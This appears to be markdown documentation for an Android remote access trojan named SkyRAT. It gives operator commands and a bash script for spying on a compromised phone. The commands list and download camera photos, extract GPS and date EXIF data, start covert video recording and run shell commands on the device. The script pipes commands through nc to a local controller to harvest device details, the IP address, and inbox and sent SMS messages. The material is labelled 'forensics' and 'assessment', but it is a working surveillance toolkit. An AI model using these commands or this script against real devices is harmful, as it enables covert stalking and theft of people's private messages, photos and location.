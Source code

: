 ### **Media Forensics**

Advanced media file analysis and extraction.

#### **Photo Metadata Analysis**
```bash
# Extract photo metadata
SkyRAT:/> getPhotos

# Download recent photos for analysis
SkyRAT:/> ls /sdcard/DCIM/Camera/
SkyRAT:/> download /sdcard/DCIM/Camera/IMG_20240315_120000.jpg

# Extract EXIF data (server-side)
exiftool dumps/Downloaded_*_IMG_*.jpg | grep -E "(GPS|Date|Camera|Location)"
```

#### **Advanced Recording Techniques**
```bash
# Long-duration recording with monitoring
SkyRAT:/> startVideo 0

# Monitor recording status (in separate session)
SkyRAT:/> shell ps aux | grep media
SkyRAT:/> shell df -h  # Monitor storage

# Schedule recording stop (server-side)
sleep 300 && echo "stopVideo" | nc localhost 8000
```

## 🛠️ Automation and Scripting

### **Automated Data Collection**

Create scripts for systematic data collection.

#### **Comprehensive Data Collection Script**
```bash
#!/bin/bash
# collect-all-data.sh

DEVICE_SESSION="skyrat_session"
TIMESTAMP=$(date +%Y%m%d_%H%M%S)
OUTPUT_DIR="assessment_${TIMESTAMP}"

mkdir -p "$OUTPUT_DIR"

# Function to send command and save output
send_command() {
    local cmd="$1"
    local output_file="$2"
    echo "Executing: $cmd"
    echo "$cmd" | nc localhost 8000 > "$OUTPUT_DIR/$output_file"
    sleep 2
}

# Device profiling
send_command "deviceInfo" "device_info.txt"
send_command "getIP" "network_info.txt"
send_command "sysinfo" "system_info.txt"

# Communication data
send_command "getSMS inbox" "sms_inbox.txt"
send_command "getSMS sent" "sms_sent.txt"
```